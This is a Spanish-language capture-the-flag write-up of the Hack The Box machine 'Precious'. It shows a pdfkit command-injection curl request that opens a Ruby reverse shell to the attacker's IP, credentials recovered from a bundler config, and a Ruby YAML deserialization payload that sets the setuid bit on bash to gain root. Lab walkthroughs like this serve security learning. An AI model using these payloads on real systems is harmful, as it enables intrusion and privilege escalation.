



# Precious (Linux)   - Español

Creador de la máquina: **[Nauten](https://www.hackthebox.com/profile/27582)**
### Writeup por Tnr1112


# Loot
## Usuarios
* ruby
* henry
* root

## Creds
* **ssh:** henry:Q3c1AqGHtoI0aXAYFH
****
# Common enumeration

## Nmap

| Port | Software       | Version               | Status |
| ---- | -------------- | --------------------- | ------ |
| 22   | ssh            | OpenSSH 8.4p1 Debian 5+deb11u1  | open   |
| 80   | http           | nginx/1.18.0 + Phusion Passenger(R) 6.0.15          | open   |

## Gobuster directory listing

Nada por aquí

## Gobuster vhost

Nada por acá tampoco

****
# Webpages
## precious.htb



****
# Ruby

Intentamos testear el input.


Vemos que por más de que diga "Cannot load remote URL", trata de obtener el archivo "test.html".
```bash
sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.189 - - [12/Mar/2023 15:20:50] "GET /test.html HTTP/1.1" 200 -
```

Al ponerle un archivo válido nos devuelve un **pdf**

```html
<html>
	<body>
		<div id="main">The Javascript was not executed.</div>
	</body>
	<script>
		div = document.getElementById("main");
		div.innerHTML = "The Javascript was executed.";
	</script>
</html>
```

Vemos que ejecuta el **js** que le pusimos.



Después de muchas pruebas tratando de leer archivos locales, importando archivos **.php** para que los ejecute e intentando hacer un port scan interno me di cuenta de que la cosa no iba por ahí.
Así que decidí descargar el archivo y ver los metadatos. Encontramos lo siguiente:

```bash
pdfinfo brlgr0508yms23wo9jttv2ku3cdrbgiz.pdf
Creator:        Generated by pdfkit v0.8.6
Tagged:         no
UserProperties: no
Suspects:       no
Form:           none
JavaScript:     no
Pages:          1
Encrypted:      no
Page size:      612 x 792 pts (letter)
Page rot:       0
File size:      11303 bytes
Optimized:      no
PDF version:    1.4
```


Vemos que el creador es pdfkit v0.8.6. Al buscar si hay alguna vulnerabilidad, encontramos un [CVE-2022-25765](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795). El cual es vulnerable a una **injección de comandos** donde la URL no está **sanitizada**.


```bash
curl 'http://precious.htb' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://precious.htb' -H 'Connection: keep-alive' -H 'Referer: http://precious.htb' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'url=http%3A%2F%2F10.10.14.77%3A4444%2F%3Fname%3D%2520%60+ruby+-rsocket+-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%2210.10.14.77%22%2C4444%29%29%27%60'
```

Al ejecutar el curl, obtenemos una shell como **ruby**.
```bash
$nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.77] from (UNKNOWN) [10.10.11.189] 33850
ls
app
config
config.ru
Gemfile
Gemfile.lock
pdf
public
id
uid=1001(ruby) gid=1001(ruby) groups=1001(ruby)
```

****
# Henry

Al revisar el directorio de **ruby**, vemos que hay una carpeta inusual: `.bundle`
```bash
ruby@precious:~$ ls -la
total 36
drwxr-xr-x 6 ruby ruby 4096 Mar 11 11:40 .
drwxr-xr-x 4 root root 4096 Oct 26 08:28 ..
lrwxrwxrwx 1 root root    9 Oct 26 07:53 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26 08:28 .bundle
drwxr-xr-x 3 ruby ruby 4096 Mar 11 11:13 .cache
drwx------ 3 ruby ruby 4096 Mar 11 11:30 .gnupg
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
drwx------ 2 ruby ruby 4096 Mar 11 11:40 .ssh
```

Vemos que contiene un archivo llamado: `config`
```bash
ruby@precious:~/.bundle$ ls -la
total 12
dr-xr-xr-x 2 root ruby 4096 Oct 26 08:28 .
drwxr-xr-x 6 ruby ruby 4096 Mar 11 11:40 ..
-r-xr-xr-x 1 root ruby   62 Sep 26 05:04 config
```

Encontramos unas posibles credenciales del usuario **henry**
```bash
ruby@precious:~/.bundle$ cat config 
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

Al probarlas en ssh, obtenemos acceso como **henry** y podemos visualizar la flag de **user**

```bash
ssh henry@10.10.11.189 
henry@10.10.11.189's password: 
henry@precious:~$ cat user.txt 
fd3af5a58f2f863af7bc0fcebb73bf3d
```

****

# Root

Nos fijamos si **henry** tiene permitido ejecutar algún comando como **root** mediante el comando `sudo`.
```bash
henry@precious:/dev/shm$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Como vemos, puede ejecutar `/usr/bin/ruby /opt/update_dependencies.rb`.

Al ejecutarlo nos da el siguiente **error**:
```bash
sudo /usr/bin/ruby /opt/update_dependencies.rb 
Traceback (most recent call last):
	2: from /opt/update_dependencies.rb:17:in `<main>'
	1: from /opt/update_dependencies.rb:10:in `list_from_file'
/opt/update_dependencies.rb:10:in `read': No such file or directory @ rb_sysopen - dependencies.yml (Errno::ENOENT)
```

Vamos a ver qué contiene el archivo `/opt/update_dependencies.rb`:

```bash
henry@precious:~$ cat /opt/update_dependencies.rb 
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

Buscando en internet sobre el YAML.load vemos que hay una [vulnerabilidad](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md#yamlload)

Se acontece por un `YAML deserialization attack`. [Explicación junto con un POC](https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated).

Lo que voy a hacer es darle permisos **suid** desde **root** a la bash con el siguiente **payload**:

```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: chmod +s /bin/bash
         method_id: :resolve
```

Si ejecutamos esa bash con el parámetro -p le permite a bash mantener el ID de usuario efectivo con el que se inicia, mientras que sin él, establecerá el uid efectivo en el uid real (su usuario). Esto permitirá que el bit setuid sea efectivo al permitir que bash retenga al usuario para el que está setuid. Por lo tanto, podremos ejecutar esta **bash** como **root**.

```bash
henry@precious:/dev/shm$ nano dependencies.yml 
henry@precious:/dev/shm$ sudo /usr/bin/ruby /opt/update_dependencies.rb 
sh: 1: reading: not found
Traceback (most recent call last):
	33: from /opt/update_dependencies.rb:17:in `<main>'
	32: from /opt/update_dependencies.rb:10:in `list_from_file'
	31: from /usr/lib/ruby/2.7.0/psych.rb:279:in `load'
	30: from /usr/lib/ruby/2.7.0/psych/nodes/node.rb:50:in `to_ruby'
	29: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	28: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	27: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	26: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:313:in `visit_Psych_Nodes_Document'
	25: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	24: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	23: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	22: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:141:in `visit_Psych_Nodes_Sequence'
	21: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `register_empty'
	20: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `each'
	19: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `block in register_empty'
	18: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	17: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	16: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	15: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:208:in `visit_Psych_Nodes_Mapping'
	14: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:394:in `revive'
	13: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:402:in `init_with'
	12: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:218:in `init_with'
	11: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:214:in `yaml_initialize'
	10: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:299:in `fix_syck_default_key_in_requirements'
	 9: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_reader.rb:59:in `each'
	 8: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_header.rb:101:in `from'
	 7: from /usr/lib/ruby/2.7.0/net/protocol.rb:152:in `read'
	 6: from /usr/lib/ruby/2.7.0/net/protocol.rb:319:in `LOG'
	 5: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
	 4: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
	 3: from /usr/lib/ruby/vendor_ruby/rubygems/request_set.rb:388:in `resolve'
	 2: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
	 1: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
/usr/lib/ruby/2.7.0/net/protocol.rb:458:in `system': no implicit conversion of nil into String (TypeError)
henry@precious:/dev/shm$ /bin/bash -p
bash-5.1# whoami
root
bash-5.1# cat /root/root.txt
89249a19a97076bb6f061cbd32243678
bash-5.1# 
```

Y listo, obtenemos una shell como **root**.

****
